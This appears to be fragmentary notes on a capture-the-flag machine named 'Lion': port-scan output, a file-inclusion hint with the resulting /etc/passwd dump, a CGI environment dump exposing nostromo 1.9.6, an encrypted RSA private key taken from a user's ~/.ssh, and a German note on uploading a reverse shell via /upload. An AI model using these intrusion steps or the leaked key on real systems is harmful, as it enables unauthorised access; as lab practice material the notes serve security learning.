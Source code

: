# 🐧 Lion



```
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
5555/tcp open  freeciv
8080/tcp open  http-proxy
9999/tcp open  abyss
```

<pre><code>dirb:5555

?page=&#x3C;x>.php # inclusion

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
<strong>alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
</strong><strong>marty:x:1001:1001:,,,:/home/marty:/bin/bash
</strong><strong>gloria:x:1002:1002:,,,:/home/gloria:/bin/bash
</strong></code></pre>

{% code overflow="wrap" fullWidth="false" %}
```
:8080/cgi-bin/

GATEWAY_INTERFACE=CGI/1.1
REMOTE_ADDR=10.14.66.169
DOCUMENT_ROOT=/var/nostromo/htdocs
REMOTE_PORT=14043
HTTP_USER_AGENT=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
SERVER_SIGNATURE=<address>nostromo 1.9.6 at 10.10.180.243 Port 8080</address>
SCRIPT_FILENAME=/var/nostromo/htdocs/cgi-bin/printenv
HTTP_HOST=10.10.180.243:8080
REQUEST_URI=/cgi-bin/printenv
SERVER_SOFTWARE=nostromo 1.9.6
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_PROTOCOL=HTTP/1.1
HTTP_ACCEPT_ENCODING=gzip, deflate
REQUEST_METHOD=GET
SERVER_ADMIN=webmaster@nazgul.ch
SERVER_ADDR=127.0.0.1
PWD=/var/nostromo/htdocs/cgi-bin
SERVER_PORT=8080
SCRIPT_NAME=/cgi-bin/printenv
SERVER_NAME=10.10.180.243:8080
```
{% endcode %}

```
GLORIA id_rsa in ~/.ssh

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,DEA2FCB97D9A7EE91BB5502188F24BCA

5m/tHlXFlre3iBu/0wnnfEyS/p7qd0yjLDuG3jblth2CpwqIvPjGGq6hoFr6xdZO
8DOR/D16XDblHvvpJBlVfqHuXzIFbqDYCgvAeB8cZbxLaqhSi0H5fHT+N0MrMM5H
p3ejg2Nwk67BxygtjnvYgXKu+ALk0/NLDAj0NzztX+yOsSPvsyR2UjUSo352pMBt
lokw3kshMcqKs0G1UhBphV5bUgUTA0nPi5WBlIdmWC+Re0EHH+RvLulg0AxR6v5Q
UxqJJ/i0dLp6N7nTFANde+I5JwPEDJ/SGJJRWB/srcpVz3PSZuEJht83nmcJRZCz
S/x7iOhIUA1vBlexg/Td911H/95sofArhZDMPX54IMO7/q5AfIjDpqD8U9Pts7R0
aBq+1m2RfVB85FM11kJv5T0uNW6t5dP8BVb7Jqz60okgJg4cJMu5YMX7vj3xCxxy
5Hlc7PA/kIy/y2tRJmArvheuFB7qjRIPcuw1gw1TKDCUHS29aiN+ePCS4f236/if
9VwHnfp8wCUnO6ApRX9sJ6iAPMA8JYFpylIL/0XqEjZdu+ESWetTfGzsxXRdeNkY
L1/H4W9mNNIbNTnL3irr4SuKowFpKwxp6xhloZ4boyiWsdfLpmtUBE5euxjlppWp
2y7ZbtuKiqdTHkhPOZOnx7oi2FmWw81P4wS6nF2ObPpSq5LGf9TiLEw5i0icedkp
rnd/qkhkBuIQb6CKlW9m3AXgMRVQXa78J1lx60FdO1B9mtuhOy529GcwVkWh856x
MesHWvY33GmW0QcVKnUqhhFDbkT0l/X7UERTMAHVKZhfPeChuo/7LoqUqdMI57Se
U66OS9bu0INLLwcSlOAL9aweynt8MFo1DS+xQsJWTLSBnVz7iT6IMYUfhtO3gi5/
Oginxw/FPmGJ6THuFWi15k9dDdO3nBJhAQDHRpMYi4BLm/xPF7EXhgiGy6sBVGrF
PYlXHZvlQEJvHd/DCw0uwolEc3z4CilGKz1BX0WbCp9cEgkmM+Ez7QTvvBa5i6kg
qh1pAaZ+cNFDJi9bn76qEaCLCd1FMPnpcZgMUgwBfyKM+1YXa0gbxlS8fqgU066j
Mol50cLTM8D4tny3OvPcjW4FveCkhqJjGK7DY1Us7R3VDWAjOYIaMqSIM2ip6iLZ
ukq7K1r0t68eVDuDGcMLjfVihGywyqglqnqaXYcJ8+19ae76E3HVFIWbSU409fMp
fs8r6QLnuxvX1HHa74Hctuo6fzB7qokKV51ChmpXjN8h5uwEl0msbJSrKlIeYy0S
uURTlfqDq50HBr2yJYeuDzEpRjZuucXqkCIRZLSjKedf9mBtMq/3CvN9K/P45A2H
BYxl0pcZPaeUiwdR/bycLK1tBZm5kVSGIU2fK7IsKrgqZxzKS6kdr2FFsKs3HWMF
ScVJZPT4dqDo3PSIQUw7q0GixCLLdDU9p45CSKPVySYyiGU22RTQS2ccGEcCTurj
lcY0pO4wZmm5GkseF5moa/1c3aOUZOESAlWGpEg5PNPt3U/SWJTpziGv3NY5DLq9
R9OsbX0gkO711f8RvRTELQIYFIO/0LcKTjY16g8MtBlMKYCyJ0cWLVWAUoggJxiR
-----END RSA PRIVATE KEY-----
```

**\<ip>:80/upload** kann eine rshell hochgeladen werden und in **./uploads** geöffnet werden









